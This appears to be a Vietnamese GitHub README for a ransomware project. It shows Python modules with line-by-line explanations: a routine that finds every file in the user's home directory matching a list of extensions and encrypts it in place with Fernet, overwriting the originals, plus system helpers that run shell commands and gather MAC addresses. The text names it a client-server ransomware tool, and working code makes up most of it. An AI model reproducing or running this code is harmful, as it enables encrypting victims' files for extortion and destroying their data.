 # RANSOMWARE
Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.

## MODULES
**1.CRYPTO**
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
1. Hàm *Process_Files* nhận vào hai tham số: *Private*, một đối tượng *Fernet* được sử dụng để mã hóa và giải mã, và *mode*, một chuỗi chỉ định chế độ hoạt động (‘encrypt’ hoặc ‘decrypt’).

2. Hàm này sẽ duyệt qua tất cả các tệp tin được trả về bởi hàm *List_Files*.

3. Đối với mỗi tệp, nó tạo một tệp tạm thời với tên là tên tệp gốc kèm theo ‘.temp’.

4. Nó mở tệp gốc để đọc và tệp tạm thời để ghi, với kích thước bộ đệm là 4096*1024 byte. Sử dụng mmap để ánh xạ tệp gốc vào bộ nhớ. 
Sau đó đọc và xử lý từng ‘chunk’ của tệp gốc, với kích thước ‘chunk’ là 4096*1024 byte.

5. Mỗi ‘chunk’ sau đó được mã hóa (nếu mode là ‘encrypt’) hoặc giải mã (nếu mode là ‘decrypt’) bằng cách sử dụng đối tượng Fernet, và sau đó được ghi vào tệp tạm thời.

6. Khi tất cả các ‘chunk’ đã được xử lý, tệp tạm thời được đổi tên thành tên của tệp gốc, thay thế tệp gốc. Nếu có lỗi xảy ra trong quá trình này, hàm sẽ bỏ qua lỗi và tiếp tục với tệp tiếp theo. Cuối cùng, nếu tệp tạm thời vẫn tồn tại (ví dụ, do một lỗi xảy ra), nó sẽ được xóa.
```python
def List_Files() -> dict:
    with open('scripts/extensions.yaml', 'r') as file:
        exts = Safe_Load(file)

    file_categories = {category: [] for category in exts}
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}

    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))

    return file_categories
```
1. Hàm mở tệp *‘scripts/extensions.yaml’* để đọc và sử dụng hàm *Safe_Load(file)* để phân tích dữ liệu *YAML* từ tệp này. Kết quả được lưu vào biến *exts*.

2. Tạo một từ điển *file_categories* với các khóa là các danh mục từ *exts* và giá trị là các danh sách trống. Tạo một từ điển *extcategory* mà mỗi phần mở rộng tệp trong *exts* là một khóa và giá trị tương ứng là danh mục của phần mở rộng đó.

3. Sau đó duyệt qua tất cả các tệp trong thư mục chính của người dùng. Nếu một mục là tệp và phần mở rộng của nó (được chuyển thành chữ thường) có trong *extcategory*, tệp đó sẽ được thêm vào danh mục tương ứng trong *file_categories*.

**2.SYSTEM**
```python
class System:
    def __init__(self) -> None:
        self.Windows = _os_name == 'nt'
 
    def Init(self) -> None:
        _system('')

    def Clear(self) -> None:
        return _system("cls" if self.Windows else "clear")

    def Title(self, title: str):
        if self.Windows:
            return _system(f"title {title}")

    def Size(self, x: int, y: int) -> None:
        if self.Windows:
            return _system(f"mode {x}, {y}")
    
    def Reset(self) -> None:
        execv(executable, [executable] + argv) 
    
    def Mac(self) -> str:
        try:
            address_mac = [
                address.address 
                for addresses in net_if_addrs().values() 
                for address in addresses 
                if address.family == AF_LINK
            ]
            return '|'.join(address_mac) if address_mac else 'nm'  
        except:
            return 'nm'
    
    def Command(command: str):
        return _system(command)
```
    1 variable:
        Windows    |      cho biết người dùng đang sử dụng hệ điều hành Windows hay không
    7 functions:
        Init()     |      khởi tạo terminal để cho phép sử dụng màu sắc
        Clear()    |      xóa terminal
        Title()    |      đặt tiêu đề của terminal, chỉ dành cho Windows
        Size()     |      đặt kích thước của terminal, chỉ dành cho Windows
        Reset()    |      khởi động lại chương trình hiện tại
        Mac()      |      địa chỉ MAC của máy tính
        Command()  |      thực thi một lệnh shell trên hệ thống máy tính
```python
def Console(ip: str, msg: str, color: str) -> None:
    color_code = getattr(Col, color)
    # Hàm getattr được sử dụng để lấy giá trị thuộc tính color từ đối tượng Col.
    message = f" [{Col.Green}{ip}{Col.White}] --> {color_code}{msg}{Col.White}."
    # Tạo một chuỗi được định dạng
    print(message)
    # In ra chuỗi đã được định dạng
```
## SERVER - CLIENT

Truy cap thu muc test xem nguyen li hoat dong.